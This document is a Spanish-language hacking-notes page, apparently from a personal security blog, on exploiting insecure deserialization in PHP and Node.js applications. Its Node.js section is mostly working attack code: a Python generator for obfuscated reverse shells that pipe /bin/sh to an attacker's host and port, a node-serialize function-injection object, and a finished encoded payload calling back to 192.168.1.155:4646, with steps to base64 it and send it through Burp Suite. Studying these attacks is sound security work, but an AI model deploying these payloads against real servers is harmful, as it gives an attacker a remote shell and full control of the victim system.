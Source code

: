 ```yaml
---
layout: single
title: Ataques de Deserialización - Hacking Notes
excerpt: "Apuntes de ataques de deserialización (Spanish)"
date: 2025-03-16
classes: wide
header:
  teaser: /img2/obsidian.jpg
  teaser_home_page: true
  icon: /img2/images/Dashboard.jpeg
categories:
  - Hacking Notes
  - Web
tags:
  - Deserialization
---
```



# Índice 
-------
1. [[#Identificar el objeto PHP]]
2. [[#Explotar vulnerabilidad PHP]]
3. [[#Identificar el objeto nodlejs]]
4. [[#Explotar vulnerabilidad nodlejs]]

------------

## Identificar el objeto PHP
- Vemos que si se está tramitando un objeto en la petición
![](/img/Pasted%20image%2020241202105400.png)

Explicación del contenido del objeto:
- O:8 -> El nombre del objeto tiene 8 caracteres
- s:9 -> String de 9 caracteres
- s:13 -> String de 13 caracteres

## Explotar vulnerabilidad PHP
- Para encontrar la vulnerabilidad es necesario analizar mucho la web en búsqueda del script que se emplea a la hora de ejecutar el comando
- A la hora de revisar el script hay que fijarse en si el objeto esta aplicando el concepto de encapsulación, es decir los atributos de la clase deben estar siempre en privados.
- Ejemplo -> [[Cereal#Explotación]]

## Identificar el objeto nodlejs
- Interceptamos la petición
![](/img/Pasted%20image%2020241202115228.png)

Vemos que en la cookie al empezar por "ey" podría indicarse que empieza por {

- Decodeamos la cookie y la modificamos
![](/img/Pasted%20image%2020241202115345.png)

## Explotar vulnerabilidad nodlejs
- Con este script de python creamos la reverse shell

```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```

- Vemos como se crea el objeto 

```nodlejs
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

- Creamos el objeto con la reverse shell

```nodlejs
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,49,53,53,34,59,10,80,79,82,84,61,34,52,54,52,54,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
- Lo pasamos a base64 y lo mandamos por burpsuite
```bash
cat data | base64 -w 0;echo
```
![](/img/Pasted%20image%2020241202122824.png)
